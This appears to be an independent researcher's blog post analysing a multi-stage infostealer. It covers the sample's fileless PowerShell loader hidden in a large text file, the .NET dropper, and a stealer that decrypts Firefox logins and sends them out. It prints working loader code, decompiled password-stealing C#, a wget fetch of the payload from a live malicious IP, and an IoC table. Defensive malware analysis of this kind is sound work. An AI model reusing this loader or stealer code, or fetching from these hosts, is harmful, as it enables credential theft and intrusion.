





# Analysing multi-stage stealer infection and related infrastructure

Hi folks ! Welcome to my very first blogpost ! Hopefully, this should be the first one of a long serie of blogposts that speak about how to reverse infection chains and try to link them to more global campaigns, **as an independant researcher with few ressources**.

So, you should be asking "DW, what do we have today ?". Dear fellows, in today's one we will be analyzing a little and uncategorized sample found on [MalwareBazaar](https://bazaar.abuse.ch/sample/092a448459c06da52ca187b4fddf4bc53614db451a62d0b7dbaacd9c27089aba/) during my weekly hunting session. FYI, I downloaded and started reversing the sample on friday the 4th of September 2026. I took some time to publish the report, as it was my first.

Before moving to further analyisis, I have to admit : I am **NOT** a professionnal reverser. I am a more like reverse engineer enthusiast with barely no skills.  And to be fully honest with you guys, as we will probably stand together for a long serie of blogposts (fingers crossed), my favorite subject is CTI. But in today's world it seems you have to be "versatile" to get into CTI research as an in independant, and get "fresh" data. So nevermind, let's put our hands in it, we will surely learn a lot of stuff from this adventure. 

Well, I guess you know everything now. Today's menu : **a three stages infection chain, with a fileless dropper resulting in a stealer deployment**. Let's get it started folks ! 


## From The Book to the Dropper (Stage 1)

The sample I've downloaded from the Bazaar (sha256:092a448459c06da52ca187b4fddf4bc53614db451a62d0b7dbaacd9c27089aba) is a large file, with almost no code in it. It barely contains 24 lines of pure code and ... MORE THAN 30K LINES OF """FREE TEXT""" I dubbed "The Book". This first stage can be divided in two phases : the setup and the injection. We will analyse each one independently. Also, for the sake of readability, I will not paste the full code in here.

### Setup

The "setup" phase of the script is pretty straightforward and lasts 22 lines. I will not go deep into the analysis here, but in short it sets various objects, environments and variables used later to run a Powershell command. This command initiates the "injection", and act as an entrypoint to the next stages of the infection chain that we will discuss later.

The setup phase gather the full path of two well known LOLBins : `conhost.exe` and `powershell.exe`. It also initialiases an environment variable named "Muscular"', restricted to current process' scope. `Muscular` is basically the name of the current file. It's not that interesting to be honest, if you want more details you can take a look at the sample.

Let's move to the real interesting part of stage 1 : **the injection**.

### Injection

Here is the code used to inject the 2nd stage into the memory of the process (oops, spoileeeeers ...).

```javascript

var sHop='"'+sCon+'" --headless "'+sCmd [1]+'" /D /Q /c echo('+"$s='';$k='// analyses ';foreach($t in Get-Content -LiteralPath $env:Muscular){if($t.StartsWith($k)){$s+=$t.Substring($k.Length)}};[scriptblock]::Create($s).Invoke()[2]"+'|"'+sPs+'" -NoProfile -NonInteractive -Command -';[3]

oWsh.Run(sHop,0,false);

// analyses $p=$env:Muscular;$k="// satisfying ";$d="// sundance ";$book=@();$t='';Get-Content -LiteralPath 
// analyses $p | ForEach-Object {if($_.StartsWith($k)){$book+=$_.Substring($k.Length).Split(@(' '),[StringSp
// analyses litOptions]::RemoveEmptyEntries)}elseif($_.StartsWith($d)){$t+=$_.Substring($d.Length)+' '}};$ws
// analyses =$t.Split(@(' '),[StringSplitOptions]::RemoveEmptyEntries);$m=@{};for($i=0;$i-lt$book.Length;$i+
// analyses +){$m[$book[$i]]=$i};$raw=New-Object byte[] $ws.Length;for($i=0;$i-lt$ws.Length;$i++){$raw[$i]=[
// analyses byte]$m[$ws[$i]]};$rl=$raw[0]+$raw[1]*256+$raw[2]*65536+$raw[3]*16777216;$ps=[Text.Encoding]::UT
// analyses F8.GetString($raw,4,$rl);$o=New-Object byte[] ($raw.Length-4-$rl);[Buffer]::BlockCopy($raw,4+$rl
// analyses ,$o,0,$o.Length);& ([scriptblock]::Create($ps))
....
```

Basically, it does the following :

* Calling conhost.exe in headless mode to execute powershell.exe [1]
* Constructing the payload to be injected into the process' memory [2]
* Running it [3]

Here, we will focus on the [2] part in order to reconstruct the full infection chain. So, [2] is a foreach loop iterating over a 30k lines text with prefixed lines. We can see 3 different prefixes : `// analyses`, `// satisfying` and `// sundance`. The `analyses` one is used to construct the powershell commands that are called to build the payload which is injected in memory. Basically, the payload is constructed by calculating numerical values based on offsets relying on the `// satisfying` and `// sundance` prefixed lines of "the book". Once "deobfuscated", this first stage looks like this :

```powershell
$p=$env:Muscular;
$k="// satisfying ";
$d="// sundance ";
$book=@();
$t='';
Get-Content -LiteralPath $p | 
ForEach-Object {
    if($_.StartsWith($k)){
        $book+=$_.Substring($k.Length).Split(@(' '),[StringSplitOptions]::RemoveEmptyEntries)
    }elseif($_.StartsWith($d)){
        $t+=$_.Substring($d.Length)+' '
    }
};

# $book = [wildlife, megapixels,....]
$ws=$t.Split(@(' '),[StringSplitOptions]::RemoveEmptyEntries); 
$m=@{};
for($i=0;$i-lt$book.Length;$i++){
    $m[$book[$i]]=$i
};
$raw=New-Object byte[] $ws.Length;
for($i=0;$i-lt$ws.Length;$i++){
        $raw[$i]=[byte]$m[$ws[$i]]
    };
$rl=$raw[0]+$raw[1]*256+$raw[2]*65536+$raw[3]*16777216;
$ps=[Text.Encoding]::UTF8.GetString($raw,4,$rl);
$o=New-Object byte[] ($raw.Length-4-$rl);
[Buffer]::BlockCopy($raw,4+$rl,$o,0,$o.Length);
& ([scriptblock]::Create($ps))
```

To be honest, I analyzed it using the "lazy" mode. I just isolated this into an other powershell script, replaced the last instructions with `[System.IO.File]::WriteAllBytes("./payload.exe", $o)` to write the content `$o` into a file and just ran it in a linux VM.  . Annnnnnnnddddd ....... Here we are ! It seems we have extracted the second stage into a brand new file named : payload.exe ! FYI, after some research on the internet, I found out that this was a common technique used by attackers to inject .NET Assembly into process' memory. 

Let's move to the second stage : "the dropper".

## From memory dust to a real infostealer (stage 2)

We are now facing a beautiful .NET malware, which we don't have any idea what it does. Let's recap what we know about it so far :

* It's .NET Assembly, so probably written in C#
* Nothing else

I must admit, it's not that much. In top of that, I've never reversed .NET. It looks like it’s going to be complex right ? Anyway, let's see what we can do.

First, I checked if it was a well known hash on VT. Spoiler : it wasn't. We have no choice to try to decompile it and connect our 4 neurons left to understand what the hell this is doing... As I am working on a debian based script kiddy distro, I installed ILSpy to begin my (short) reversing session.

I must be honest with you guys :

* I never reversed such C# malware
* It is a public sample
* It was heavily obfuscated
* It was a sunny day and I had to go for a drink with my 2 last friends

Considering all these factors, I uploaded it to Hybrid Analysis sandbox ... and it was a good choice :


The report is quite long, and do not contain that much information. But it shows us that it's clearly not the last stage of the infection chain, and that it seems to be the dropper. In fact, network indicators gives us interesting insights :

```bash
GET	78[.]159[.]131[.]228/k/jjscotttbpl[.]dat
```

My lizard brain took control, and my hands started typing without my consent :

```bash
wget -O jjscotttbpl.dat https://78.159.131.228/k/jjscotttbpl.dat --no-check-certificate
--2026-09-05 08:00:42--  https://78.159.131.228/k/jjscotttbpl.dat
Connecting to 78.159.131.228:443... connected.
WARNING: The certificate of ‘78.159.131.228’ is not trusted.
WARNING: The certificate of ‘78.159.131.228’ doesn't have a known issuer.
WARNING: The certificate of ‘78.159.131.228’ has expired.
The certificate has expired
The certificate's owner does not match hostname ‘78.159.131.228’
HTTP request sent, awaiting response... 200 OK
Length: 93696 (92K)
Saving to: ‘jjscotttbpl.dat’

jjscotttbpl.dat                                         100%[==============================================================================================================================>]  91.50K   281KB/s    in 0.3s    

2026-09-05 08:00:43 (281 KB/s) - ‘jjscotttbpl.dat’ saved [93696/93696]
```

I promise, I will "reverse" it for real in the next part : strings, ILSpy, my brain and all the tools I can found across the internet. And yes, I'm putting quotes around reverse and you will know why soon.

## Unobfuscated full option, multi-purpose infostealer (stage 3)

This file has a known hash, with a highly malicious score on VT :


Dumb, as usual, I tried to "cat" the file. Yup, it's a PE file (I said I was not that smart).

But unexpectedlly, it gave me something interesting : there are a LOT OF TEXTS. The best part of all this is that it looks like function and variables names, and even values of certain variables. I am not dreaming, and so do you : **it is compilated with the symbols and the program seems not to be obfuscated nor encrypted**. Thrilled by this discovery, I opened ILSpy and moved to some more interesting part : decompile it and reversing as a noob.

I don't know how to explain the feeling I had opening the .dat file in my ILSpy. Indeed, the hypothesis proved to be sound : no obfuscation **AT ALL** and plenty of functions allowing me to understand how this big guy works.

First of all, we have a Main() function that is calling various subfunctions in a specific order :

```csharp
[STAThread]
public static void Main()
{
	isUserExpired(); //[1]
	DisableWD();
	Taskmgr_Disabler();
	CMD_Disabler();
	Registeries_Disabler();
	Start(); //[2]
	StartView(); //[3]
	Application.Run();
}
```

I'm not going through all the functions because `*Disable*` didn't decompiled proper, or were not implemented in this variant, so I have no insight on what they do or should be doing (instead of disabling some stuff).

### isUserExpired()

First, the sample calls a function called "isUserExpired" which is checking wether the user is expire or not. Let's breakdown the code quickly :

```csharp
public static void isUserExpired()
{
	try
	{
		DateTime t = DateTime.ParseExact(ExpireTimeDate, "yyyy-MM-dd", CultureInfo.InvariantCulture);
		DateTime now = DateTime.Now;
		if (DateTime.Compare(t, now) < 0)
		{
			Application.Exit();
		}
	}
	catch (Exception ex)
	{
		ProjectData.SetProjectError(ex);
		Exception ex2 = ex;
		ProjectData.ClearProjectError();
	}
```

It's basically performing a timestamp check between an hardcoded value named ExpireTimeDate and the current timesteamp. If `t` is earlier than the current timestemp, then the execution flow stops. It's weird, but meh.

### Start()

Won't past the code of `Start()` here as it's only launching all the modules used to steal information from the target. These modules are instances of two classes : `COVIDPickers` and `MozilSpeed`. The first class is focusing on various sources such as Chrome, Epic Games or even Brave credentials storage meanwhile the second is more focused on Mozilla softwares such Firefox and Thunederbird.

In order to understand how the stealer works, we will quickly go through the `MozillSpeed Firefox()`:

```csharp
public static void FireFox()
{
	try
	{
		string text = null;
		string path = null;
		bool flag = false;
		bool flag2 = false;
		string[] directories = Directory.GetDirectories(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Mozilla\\Firefox\\Profiles"));
		string text2 = "";
		if (directories.Length == 0) 
		// Initiating FFDecryptor object used to decrypt login/pass files...
		// Initiating FFDecryptor object used to decrypt login/pass files...
		// The interesting part is here 
		FFLogins fFLogins;
		using (StreamReader streamReader = new StreamReader(path))
		{
			string text4 = streamReader.ReadToEnd();
			JavaScriptSerializer val = new JavaScriptSerializer();
			fFLogins = val.Deserialize<FFLogins>(text4);
		}
		aaalogshsindgdaLogndta[] logins = fFLogins.logins;
		foreach (aaalogshsindgdaLogndta aaalogshsindgdaLogndta2 in logins)
		{
		  // Retrieve and decrypt the login/passwords
			string text5 = "";
			string text6 = FFDecryptor.Decrypt(aaalogshsindgdaLogndta2.encryptedUsername);
			string text7 = FFDecryptor.Decrypt(aaalogshsindgdaLogndta2.encryptedPassword);
			string hostname = aaalogshsindgdaLogndta2.hostname;
			// Store them into a file named "Password Vault"
			text5 = "\r\n============X============\r\nURL: " + hostname + "\r\nUsername: " + text6 + "\r\nPassword: " + text7 + "\r\nApplication: Firefox\r\n=========================\r\n ";
			UltraSpeed.PasswordVault += text5; // [1]
		}
		// Other stuff related to FFDecryptor and exception handling
}
```

One of the key points here is that the stealer is writing everything into a single file dubbed "PasswordVault". This file is then exfiltrated using a technique which could be either FTP, MAIL or TG. This must be set by the attacker at build time.

Exfiltration is performed by `StartView()` function, which is implemented as follows :

```csharp
public static void StartView()
{
	EmptyBlocker();
	NoBlocks();
}
```

It's thus constituted of two functions : `EmptyBlockers()`and `NoBlocks()`. In my ILSpy, `NoBlocks()` is empty so I won't analyse it. But `EmptyBlockers()` is the function used to send the ULPs to the attackers C2. There is too much lines in this function, so I won't paste it here for the sake of readability. It's only implementing 3 methods to exfiltrate the credentials, and basically doing a `if $METHOD then ...` where $METHOD is FTP,SMTP or TG. 

Techniques used by this malware are not that evolved.

### Capabilities summary
Here is a quick summary of the capabilities of the malware : 
* Keylogger 
* Steals credentials stored for various applications
* Ability to take screenshots
* Ability to get clipboard content

### Random and funny stuff
Attackers stored their SMTP C2 credentials into the code, if you want you can go and take a look at it : 


## Quickly investigating infrastructure

Let's move to the funny part : infrastructure investigation. Our starting point is an URL pattern `78[.]159[.]131[.]228/k/jjscotttbpl[.]dat`. Let's check if we can uncover similar servers distributing this malware. To do so, we are doing a wildcard search based the filename modifier on URLscan like this : `filename:"jjscotttbpl.dat"`. Here are the results : 

What can we learn from this ? We have two active IP distributing this malware and it seems to be a recent infrastructure, as the oldest scan is nine days ago (by the time of writing). 

So we have a second IoC :)) : `5[.]253[.]59[.]16`.

But, let's try to enlarge our searching range by running this query`page.url.keyword:/.*\/k\/.*\.dat/` and .... BINGOOOO (results are collapsed by hostname):


With this request, we retrieved three news IoCs :
* Two filenames : `bplplatatenera.dat` and `ofelia.dat`
* One IP : `89[.]23[.]107[.]5`

Pivoting on our fresh found IPs, we can find another intersting stuff in URL syntax : attackers seems not only to be using `$IP/k/$PAYLOAD.dat`, but also `$IP/m/$PAYLOAD.dat`. Pivoting on `89[.]23[.]107[.]5` I found an other filename, which name is close to `jjscotttbpl.dat` dubbed `jscotbpl.dat`.

It worth nothing but it seems that these infrastructure has been runing for less than 20 days. I may update it in a future article.

## Conclusion

It was a good one ! I submitted some of the URLs I found on URLhaus and you will find al the IoCs on the next section. In the following days, I will write some YARA rules to hunt for the different stages and I'll be updating this blogpost.

Thanks for reading me ! Do not hesitate to reach me out if you want to discuss about some CTI stuff :)
 
## IoCs

| Type |Value |Comment|
| --- | --- | --- |
|IP | 78[.]159[.]131[.]228|Albania - AS 215540 (Global Connectivity Solutions Llp)|
|IP|5[.]253[.]59[.]16|Netherlands - AS 215540(Global Connectivity Solutions Llp)|
|IP|89[.]23[.]107[.]5|Netherlands - AS 215540 (Global Connectivity Solutions Llp)|
|Domain|mail.bpl.com.mx||
|User-Agent|Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; .NET CLR1.0.3705;)||
|Email|produccion@bpl.com.mx|SMTP exfiltration sender|
|Email|jscottt349@gmail.com|SMTP exfiltration receiver|
|Filename|bplplatatenera.dat| |
|Filename|jjscotttbpl.dat| |
|Filename|ofelia.dat| |
|Filename|jscotbpl.dat| |
|Filename|CloudService.exe|Stage3 malware name|
|sha256|1bf9e3df02c83d211747c0f41df77b3218b494c470bcf811dec5f8f7e66b74d8|Stage 2 - sha256|
|sha1|b6677f0d4be0967e417ee51690517d370c572e25|Stage 2 - sha1|
|md5|e4adb0c7a37538f1e816d52476253265|Stage 2 - md5|
|sha256|a05d3628ed18936f474403441aa84c1017aef82a6be794e038e9c31655fc89af|jjscotttbpl.dat - sha256|
|sha1|dd7dc6957107b4f8c2e3bed6e1173b97ea2c67de|jjscotttbpl.dat - sha1|
|md5|e83d82d4a5c99e42f855a7a99ebaf06a|jjscotttbpl.dat - md5|

